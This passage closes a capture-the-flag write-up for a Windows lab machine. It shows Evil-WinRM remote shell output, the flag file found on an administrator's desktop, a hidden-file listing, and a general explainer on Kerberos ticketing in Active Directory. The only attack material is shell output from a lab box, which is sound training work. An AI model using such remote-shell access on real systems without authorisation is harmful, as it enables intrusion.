Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
```
<br />
Interestingly, root.txt was inside user **TRX**:
<br />

```powershell
*Evil-WinRM* PS C:\Users\TRX\Desktop> ls


    Directory: C:\Users\TRX\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/10/2023   2:54 PM             34 root.txt

```


# <span style="color:red">Additional Notes</span>
## gci -force .

**gci -force .** will force to show all the hidden files in the current working directory:
<br />

```powershell
*Evil-WinRM* PS C:\Users\legacyy> gci -force .


    Directory: C:\Users\legacyy


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--       10/25/2021   8:22 AM                AppData
d--hsl       10/25/2021   8:22 AM                Application Data
d--hsl       10/25/2021   8:22 AM                Cookies
d-r---       10/25/2021   8:25 AM                Desktop
d-r---        9/26/2023   6:11 PM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d--hsl       10/25/2021   8:22 AM                Local Settings
d-r---        9/15/2018  12:19 AM                Music
d--hsl       10/25/2021   8:22 AM                My Documents
d--hsl       10/25/2021   8:22 AM                NetHood
d-r---        9/15/2018  12:19 AM                Pictures
d--hsl       10/25/2021   8:22 AM                PrintHood
d--hsl       10/25/2021   8:22 AM                Recent
d-----        9/15/2018  12:19 AM                Saved Games
d--hsl       10/25/2021   8:22 AM                SendTo
d--hsl       10/25/2021   8:22 AM                Start Menu
d--hsl       10/25/2021   8:22 AM                Templates
d-r---        9/15/2018  12:19 AM                Videos
-a-h--        9/26/2023   5:57 PM         262144 NTUSER.DAT
-a-hs-       10/25/2021   8:22 AM          98304 ntuser.dat.LOG1
-a-hs-       10/25/2021   8:22 AM         125952 ntuser.dat.LOG2
-a-hs-       10/25/2021   8:22 AM          65536 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf
-a-hs-       10/25/2021   8:22 AM         524288 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms
-a-hs-       10/25/2021   8:22 AM         524288 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms
---hs-       10/25/2021   8:22 AM             20 ntuser.ini
```


## Understanding Kerberos and Windows AD
Although there was no kerberos and Windows AD stuff from this box, I just summarized some points for my own reference:
<br />

**Kerberos** is a widely used authentication protocol that helps secure communications in a networked environment. In the context of Windows Active Directory (**AD**), Kerberos plays a crucial role in *authentication and ticketing*. Here's an overview of how Kerberos and ticketing work in Windows AD:
<br />

1. **Authentication with Kerberos**:
   - When a user logs into a Windows domain-joined computer or attempts to access network resources, they must first authenticate themselves to the Active Directory domain.
   - Kerberos is the default authentication protocol used in Windows AD. It's based on the concept of mutual authentication, meaning both the client and the server verify each other's identity.
   - **The process starts with the client requesting an authentication token (ticket) from the Key Distribution Center (KDC), a central authentication server in the AD domain.**
<br />
<br />

2. **Ticketing in Windows AD**:
   - The ticketing process involves the use of two types of tickets: the **Ticket Granting Ticket (TGT)** and the **Service Ticket**.
   - TGT: When a user logs in, the client requests a TGT from the KDC. This TGT is encrypted using a secret key derived from the user's password and can be used to request service tickets.
   - Service Ticket: When a user wants to access a specific network resource (e.g., a file share, printer, or application server), the client requests a service ticket from the KDC for that resource. This request includes the TGT.
   - The service ticket, once issued by the KDC, is sent to the resource server. The resource server can decrypt and verify the service ticket using its own secret key, ensuring that it was issued by the KDC.
<br />
<br />

3. **Ticket Expiration and Renewal**:
   - Tickets have a limited lifespan to enhance security. When a ticket expires, the user or client must request a new one.
   - To avoid repeatedly entering their password, the TGT can be used to request new service tickets without re-authenticating to the KDC. This process is called ticket renewal.
<br />
<br />


4. **Benefits of Kerberos and Ticketing**:
   - Enhanced Security: Kerberos authentication is highly secure because it relies on strong encryption and mutual authentication.
   - Single Sign-On (SSO): Users can log in once and access various network resources without re-entering their credentials.
   - Centralized Authentication: Active Directory provides a centralized authentication service, making it easier to manage user accounts and access control.
<br />
<br />

In summary, Kerberos and ticketing in Windows Active Directory provide a robust and secure method for authenticating users and authorizing their access to network resources. This technology is a fundamental component of Windows domain authentication and helps ensure the confidentiality and integrity of network communications.

## Sources:
- https://www.hackingarticles.in/domain-persistence-golden-certificate-attack/
- https://miro.medium.com/v2/resize:fit:583/1*DPnNi09XgWdWC2NalSRmNw.png
- https://hamidsadeghpour.net/2018/06/02/certificate-password-less-based-authentication-in-winrm/
- https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file